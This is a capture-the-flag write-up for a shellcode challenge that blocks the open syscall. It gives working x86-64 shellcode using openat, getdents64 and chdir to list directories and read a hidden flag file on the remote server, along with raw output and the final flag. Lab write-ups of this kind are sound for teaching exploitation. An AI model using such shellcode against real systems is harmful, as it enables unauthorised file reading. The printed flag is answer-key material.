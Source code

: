 ### Step 1, using openat to open, read and write a file
Since `open` syscall was not allowed, we are using `openat`, here is the shellcode that makes use of `openat` to read and write out content of a file:
```py
shellcode = asm('''
    /* Openat */
    mov rdi, -100       /* AT_FDCWD (current directory) */
    lea rsi, [rip+flag] /* pointer to filename */
    xor rdx, rdx        
    xor r10, r10        
    mov rax, 257
    syscall

    /* Read */
    mov rdi, rax        
    mov rax, 0          
    sub rsp, 100        
    mov rsi, rsp        
    mov rdx, 100        
    syscall

    /* Write */
    mov rdx, rax        
    mov rax, 1          
    mov rdi, 1          
    mov rsi, rsp        
    syscall


flag:
    .string "./flag.txt"
''')
```


### Step 2, `getdents64` to print out directory entries
As you can see from above that I am trying to open `./flag.txt`, which worked at my local environment but not when connecting to the remote challenge.

That means I am likely opening nothing so the file name of the flag file is probably not `./flag.txt`.

Therefore, I planned to do a `ls` on the remote directory to take a look at the the file and directories names.
After a quick google, I got to know that `getdents64` syscall does the work. It prints the directory entries. Here is the code that print out the directory entries of a desired directory.

```py
shellcode = asm('''
    /* Open a directory using openat */
    mov rax, 257        /* openat syscall */
    mov rdi, -100       /* AT_FDCWD (current directory) */
    lea rsi, [rip+dir]  /* pointer to the dirrectory string */
    xor rdx, rdx        
    xor r10, r10     
    syscall
    
    /* Save fd*/
    mov r12, rax
    
    /* Allocate buffer on stack for directory entries */
    sub rsp, 1024
    mov rbp, rsp        /* Save buffer address in rbp */
    
    /* Use getdents64 to do ls */
    mov rax, 217        /* getdents64 */
    mov rdi, r12        /* fd */
    mov rsi, rbp        /* buffer address */
    mov rdx, 1024       /* buffer size */
    syscall
    
    /* Save number of bytes read */
    mov r13, rax
    
    /* write */
    mov rax, 1          
    mov rdi, 1          
    mov rsi, rbp        
    mov rdx, r13        
    syscall

dir:
    .string "." /* Current directory, adjust this to "./secret" later to see stuff inside secret */
''')
```
Here is the output of the above shellcode:
```
Input your shellcode here (max: 100): b\x02\x18\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04.\x00w\x00\x00\xba$\x10\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04sys\x00\x00\xdf\x0b\x12\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04var\x00\x00\xb3$\x10\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04run\x00\x00\xcd3\x10\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04tmp\x00\x00\x16P\x10\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04usr\x00\x00\xf3#\x10\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00\x18\x00
bin\x00\x00\xb9$\x10\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04srv\x00/\xae$\x10\x00\x00\x00\x00\x00  \x00\x00\x00\x00\x00\x00\x00\x18\x00\x04opt\x00/\xad$\x10\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04mnt\x00\x00\x13\x0c\x12\x00\x00\x00\x00\x00\x0b\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04home\x00M\x02\x18\x00\x00\x00\x00\x00\x0c\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04etc\x00\x00\xa9$\x10\x\x00\x00\x00\x00\x00\x00\x00 \x00
lib32\x00\x00\x00\x00\x00\x00\x00\x00\xb8$\x10\x00\x00\x00\x00\x00\x0e\x00\x00\x00\x00\x00\x00\x00\x18\x00
sbin\x00J\x02\x18\x00\x00\x00\x00\x00\x0f\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04..\x00\x00\x00\xa8$\x10\x00\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x18\x00
lib\x00\x00\xaf$\x10\x00\x00\x00\x00\x00\x11\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04proc\x00\xab$\x10\x00\x00\x00\x00\x00\x12\x00\x00\x00\x00\x00\x00\x00 \x00
libx32\x00\x00\x00\x00\x00\x00\x00\xac$\x10\x00\x00\x00\x00\x00\x13\x00\x00\x00\x00\x00\x00\x00 \x00\x04media\x00\x00\x00\x00\x00\x00\x00\x00\xf4#\x10\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04boot\x00\xaa$\x10\x00\x00\x00\x00\x00\x15\x00\x00\x00\x00\x00\x00\x00 \x00
lib64\x00\x00\x00\x00\x00\x00\x00\x00\xb0$\x10\x00\x00\x00\x00\x00\x16\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04root\x00T\x02\x18\x00\x00\x00\x00\x00\x17\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04dev\x00\x00]\x02\x18\x00\x00\x00\x00\x00\x18\x00\x00\x00\x00\x00\x00\x00 \x00\x08.dockerenv\x00\x00\x00\xfd\x0b\x12\x00\x00\x00\x00\x00\x19\x00\x00\x00\x00\x00\x00\x00 \x00\x04secret\x00\x00\x00\x00\x00\x00\x00$
```

Having entries like `\tmp\` and `\proc` implies that we are at the root directory. But the most important thing is that there is something named `secret`. Therefore, changing the `dir` string of the above shellcode from being `"."` to being `"./secret"` so that we can see the things inside secret and dig further down.

From:
```
dir:
    .string "." /* Current directory, adjust this to "./secret" later to see stuff inside secret */
```

To:
```
dir:
    .string "./secret" /* Current directory, adjust this to "./secret" later to see stuff inside secret */
```


Then, we are able to see stuff inside `./secret`:
```
Input your shellcode here (max: 100): \xfd\x0b\x12\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04.\x00y\x00\x00\xf6\x0b\x12\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x18\x00\x04..\x00\x00\x00\xfe\x0b\x12\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00(\x00\x08CDr46w9anrq3vg0Z\x00\x00\x00\x00\x00$
```
Here we got something interesting `CDr46w9anrq3vg0Z`. But I am not sure whether it's a file or directory, I treated it as a directory first and tried going inside of it but failed. So, it seemed to be a file.


### Step 3, chdir to secret and open CDr46w9anrq3vg0Z
So I decided to change the remote directory from being root to go inside of `./secret` so that I can open `CDr46w9anrq3vg0Z`. Here is the shellcode that does the work:
```
shellcode = asm('''
    /* Change to the secret directory */
    push 80
    pop rax
    lea rdi, [rip+secret] /* pointer to "./secret" */
    syscall
    
    /* Openat */
    push 257
    pop rax
    mov rdi, -100       /* dirfd: AT_FDCWD */
    lea rsi, [rip+file] /* pointer to "CDr46w9anrq3vg0Z" */
    xor edx, edx        
    syscall

    /* Read and write in one step */
    push rax
    pop rdi
    xor eax, eax        
    sub rsp, 64        
    mov rsi, rsp        
    mov rdx, 64         
    syscall
    
    /* Write to stdout */
    push rax
    pop rdx
    mov rax, 1         
    mov rdi, 1          
    syscall

secret:
    .string "./secret"  /* First string at offset 0 */
file:    
    .string "CDr46w9anrq3vg0Z" /* Second string at offset 8 */
''')
```
Basically, it is the combination of `chdir` syscall and the very first shellcode, the sequence of `openat`, `read` and `write` syscalls with a bit of modification such as replacing the `mov` instructions to `push` and `pop` instructions as the shellcode is limited by size as well. And guess what, with the above shellcode, opening `CDr46w9anrq3vg0Z` got me the flag.

### Flag
```
PUCTF25{n0w_y0u_kn0w_h0w_70_u53_5y5c4ll_70_l5_pOATie8rkE0Ewiv7Lp}
```
